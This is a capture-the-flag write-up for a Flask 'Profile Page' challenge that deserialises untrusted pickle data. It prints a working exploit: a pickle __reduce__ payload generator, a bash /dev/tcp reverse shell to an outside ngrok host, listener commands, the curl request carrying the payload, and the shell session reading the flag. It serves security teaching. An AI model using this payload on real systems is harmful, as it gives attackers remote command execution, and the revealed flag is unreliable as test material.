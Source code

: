 # Profile Page

## Description

Get the flag and submit it here ([https://dsw3qg.wizer-ctf.com/submit_flag/<flag>](https://dsw3qg.wizer-ctf.com/submit_flag/<flag>)) to win the challenge! (profile page: [https://dsw3qg.wizer-ctf.com/profile](https://dsw3qg.wizer-ctf.com/profile))

## Source Code

```python
from flask import Flask, request, render_template
import pickle
import base64

app = Flask(__name__, template_folder='templates')
real_flag = ''
with open('/flag.txt') as flag_file:
    real_flag = flag_file.read().strip()

class Profile:
    def __init__(self, username, email, bio):
        self.username = username
        self.email = email
        self.bio = bio

@app.route('/profile', methods=['GET', 'POST'])
def profile():
    if request.method == 'POST':
        username = request.form.get('username')
        email = request.form.get('email')
        bio = request.form.get('bio')

        if username and email and bio:
            profile = Profile(username, email, bio)
            dumped = base64.b64encode(pickle.dumps(profile)).decode()
            return render_template('profile.html', profile=profile, dumped=dumped)

    load_object = request.args.get('load_object')
    if load_object:
        try:
            profile = pickle.loads(base64.b64decode(load_object))
            return render_template('profile.html', profile=profile, dumped=load_object)
        except pickle.UnpicklingError as e:
            return f"Error loading profile: {str(e)}", 400

    return render_template('input.html')

@app.route('/submit_flag/<flag>', methods=['GET'])
def flag(flag):
    return real_flag if flag == real_flag else 'Not correct!'

if __name__ == '__main__':
    app.run(debug=True)
```

## Solution

#### Understanding the code

This appears to be a `Flask` web application, starts by creating a class named `Profile` that represents user profiles. It has attributes such as `username`, `email`, and `bio`.

The main route of interest is `/profile`, which handles both `GET` and `POST` requests. If it's a `POST` request, the code retrieves user input from the parameters (`username`, `email`, `bio`). It then creates a `Profile` object, serializes it using the `pickle` module, encodes the serialized object in base64, and passes it to the `profile.html` template for rendering.

If the request is a `GET` request and includes a `load_object` parameter, the code attempts to deserialize the object from base64. If successful, it renders the `profile.html` template with the loaded profile.

#### Solving the challenge

We already spot the interesting part of this code which is the fact that we can pass serialized objects in the GET parameter `load_object` and the app just deserialize it without any checks.

For more details about how to abuse this, you check this [article](https://davidhamann.de/2020/04/05/exploiting-python-pickle/).

So basically we will create a malicious serialized object that will hold an instance of a malicious class that performs command execution, then pass that serialized object to the app via the `load_object` parameter, then the app deserializes it and execute the code and we get by that command execution!

First we create the code that will give us the maclicious object :

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('ANY SHELL COMMAND YOU WANNA RUN')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

In our case, we specify a reverse shell as the command :

```bash
bash -c "/bin/bash -i >& /dev/tcp/$IP/$PORT 0>&1"
```

Then we run the python code :

```bash
python3 pickle_generator.py

b'gASVWgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTk3NzEgMD4mMSKUhZRSlC4='
```

Now we have our maclicious serialized object, next we start a listener using `nc` and `ngrok` to forward outside connections to our local port :

```bash
nc -lvnp 4444

ngrok tcp 4444
```

Next we pass that serialized object to the `load_object` parameter :

```bash
curl 'https://dsw3qg.wizer-ctf.com/profile?load_object=gASVWgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTk3NzEgMD4mMSKUhZRSlC4='
```

As soon as we make that request we recieve a connect back to our listener with the reverse shell :

```bash
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 44240
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
nonrootuser@6d79931c83ac:/$ id
uid=1000(nonrootuser) gid=1000(nonrootuser) groups=1000(nonrootuser)
```

now we have command execution, let's read the flag which is located in `/flag.txt` :

```bash
nonrootuser@6d79931c83ac:/$ cat /flag.txt
WIZER{'PICKL1NG_1S_DANGEROUS'}
```

And we solved the fourth challenge!
